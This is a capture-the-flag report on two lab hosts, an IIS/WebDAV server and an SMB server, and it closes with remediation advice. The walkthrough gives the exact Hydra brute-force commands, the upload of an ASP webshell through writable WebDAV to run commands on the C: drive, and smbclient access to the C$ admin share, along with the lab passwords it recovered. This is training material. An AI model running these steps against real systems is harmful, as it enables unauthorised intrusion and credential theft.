# CTF Report: System/Host-Based Attacks

**Classification:** Host & Network Penetration Testing / System & Host-Based Attacks<br>
**Target 1:** target1.ine.local (10.2.28.186) — Windows Server, IIS 10.0 + WebDAV<br>
**Target 2:** target2.ine.local — Windows Server, SMB<br>
**Objective:** Capture all four flags.

## 1. Executive Summary

Target 1 runs IIS 10.0 with HTTP Basic auth and a writable WebDAV directory. Hydra recovers
the `bob` password, `cadaver` reads the first flag from WebDAV, and an uploaded ASP webshell
exposes the C: drive for the second flag. Target 2 exposes SMB; a Hydra brute-force yields
four credential pairs, and `smbclient` as Administrator retrieves the third and fourth flags.

## 2. Target 1 — Recon

```bash
ping -c 4 target1.ine.local      # 10.2.28.186
nmap -sV -p- 10.2.28.186
```





Default scripts against the main ports show HTTP Basic auth (realm `target1.ine.local`).

```bash
nmap -sV -sC -p 80,135,445,3389 10.2.28.186
```





## 3. Flag 1 — HTTP Basic Auth → WebDAV

Brute-forcing the `bob` account against HTTP.

```bash
hydra -l bob -P /usr/share/wordlists/metasploit/unix_passwords.txt target1.ine.local http-get
# bob:password_123321
```



The site is a default IIS page.



Gobuster (authenticated) finds `aspnet_client` and `webdav`.

```bash
gobuster dir -u target1.ine.local -w /usr/share/wordlists/dirb/common.txt -U bob --password password_123321
```



Connecting to WebDAV with `cadaver` and reading the first flag.

```bash
cadaver http://target1.ine.local
# Username: bob / Password: password_123321
cd webdav
cat flag1.txt
```

```
Flag 1: ece56b7f660b453699939715163af2bc
```



## 4. Flag 2 — ASP Webshell → C: Drive

WebDAV allows uploads, so we `put` an ASP webshell.

```bash
put /usr/share/webshells/asp/webshell.asp
```



Through the webshell we enumerate `C:\` and find `flag2.txt`.

```
dir C:\     ->  flag2.txt
type C:\flag2.txt
```



```
Flag 2: b09a4b8860c2441ea4efcc9d1d90aa9b
```



## 5. Target 2 — SMB Brute-Force

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt \
      -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt \
      smb://target2.ine.local
```

Four valid credential pairs are recovered:

```
rooty:spongebob | demo:password1 | auditor:hellokitty | administrator:pineapple
```



## 6. Flags 3 & 4 — SMB Shares

Connecting to the `C$` admin share as Administrator and grabbing `flag3.txt`.

```bash
smbclient \\\\target2.ine.local\\C$ -U Administrator
# password: pineapple
ls
get flag3.txt
```



The fourth flag is on the Administrator's Desktop.

```bash
cd Users\Administrator\Desktop\
get flag4.txt
```



```
Flag 3: fa9bd01c74c140c9be560f9fe55020a5
Flag 4: 5727e192f94c4e07b83a77d38c6ebd10
```



## 7. Remediation Recommendations

1. **Disable WebDAV** (or make it read-only and non-executable) — writable WebDAV allowed
   the webshell upload and remote code execution.
2. **Enforce strong passwords & lockout** — every account fell to small wordlists; replace
   HTTP Basic auth over cleartext with a stronger scheme over TLS.
3. **Restrict SMB admin shares** (`C$`) and remove local admin reuse; disable NTLM where
   possible and require SMB signing.
4. **Remove flag/sensitive files** from web roots and admin desktops; apply least privilege.
